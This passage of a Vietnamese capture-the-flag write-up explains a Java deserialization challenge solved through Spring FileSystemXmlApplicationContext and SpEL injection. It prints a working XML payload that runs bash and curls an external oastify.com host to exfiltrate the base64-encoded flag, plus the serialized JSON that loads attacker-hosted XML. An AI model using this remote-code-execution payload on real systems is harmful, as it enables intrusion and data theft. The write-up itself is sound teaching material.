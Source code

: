 Lớp SerializationItem sẽ có các thuộc tính sau

![image](https://hackmd.io/_uploads/SyTHVKSrA.png)

4. Sau đó check từng Item trong List vừa mapper có kiểu dữ liệu nào. Ở đây điều mà chúng ta cần quan tâm nhất đó chính là đoạn sau. Đây là 1 cách trong Java để tạo các đối tượng dynamic từ data input.
![image](https://hackmd.io/_uploads/SJW1BYSH0.png)

- Nó thực hiện ngắt các argument bằng dấu `|` trong item.value
- Lấy tên class từ args[0]
- Lấy constructor của lớp vừa tạo bên trên với tham số kiểu String
- Tạo 1 instance của lớp vừa tạo
- Đưa nó vào biến result
    
Author của bài này hướng player đến việc tìm kiếm các gadget là các libraries được load vào trong app, mà cho phép bạn khởi tạo class như kiểu là `constructor.newInstance(args)`

```xml=
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean class="#{T(java.lang.Runtime).getRuntime().exec(
        new String[] {
        '/bin/bash', '-c', 'curl kd11rpy190vlsttafaar26d3xu3lrcf1.oastify.com/?flag=$(/readflag|base64)'
        }
        )}"></bean>
</beans>
```
Payload trên sử dụng `T(class)` rất hữu dụng trong việc khởi tạo class từ các cái tên hợp lệ. Theo đó, mình sẽ khởi tạo 1 class nh`org.springframework.context.support.FileSystemXmlApplicationContext`. Nó sẽ parse external XML sử dụng template processing, cái mà có thể host ở trên server của mình. 
P/s: Phase 3 này liên quan đến khá là nhiều thứ như [CVE-2023-46604](https://vulncheck.com/blog/cve-2023-44604-activemq-in-memory) và SpEL Injection mà mình chưa có research kĩ lắm, cho nên viết cũng chưa được clear. 

Payload khi đưa vào serial sẽ như sau: `[{"type":"object","name":"TypeReference","value":"org.springframework.context.support.FileSystemXmlApplicationContext|' + ATTACKER + '"}]`

Giờ mình sẽ thực hiện lại các bước để giải bài này:

1. ![image](https://hackmd.io/_uploads/SkIeRYSHC.png)
2. ![image](https://hackmd.io/_uploads/HJT2RtBHC.png)
3. ![image](https://hackmd.io/_uploads/BJnIicSSR.png)
4. ![image](https://hackmd.io/_uploads/S1hQlqBrA.png)








https://www.cookieshq.co.uk/posts/multiparameter-attributes